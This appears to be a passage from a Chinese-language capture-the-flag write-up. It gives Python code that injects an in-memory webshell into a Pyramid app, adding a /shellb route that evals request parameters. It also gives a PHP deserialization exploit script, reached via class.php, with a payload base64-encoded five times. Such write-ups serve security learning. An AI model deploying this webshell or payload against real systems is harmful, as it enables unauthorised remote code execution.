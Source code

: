 测一下发现题目不出网，打pyramid内存马

参考

https://forum.butian.net/share/3974

```python
def waff():
    def f():
        yield g.gi_frame.f_back

    g = f()             
    frame = next(g)     
    b = frame.f_back.f_back.f_globals
    def hello(request):
        code = request.params['code']
        res=eval(code)
        return Response(res)

    config.add_route('shellb', '/shellb')
    config.add_view(hello, route_name='shellb')
    config.commit()

waff()
```

在/shellb处命令执行拿flag即可

### **什么文件上传？**

robots.txt里面看到一个class.php

![img](../assets/1744970124055-3.png)

/class.php

php反序列化

exp

```bash
<?php
class yesterday {
    public $learn;
    public $study="study";
    public $try;
}
class today {
    public $doing;
    public $did;
    public $done;
}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
}
$a = new yesterday();
$a -> study = new today();
$a -> study -> doing = new future();


echo base64_encode(base64_encode(base64_encode(base64_encode(base64_encode(serialize($a))))));

?>
```
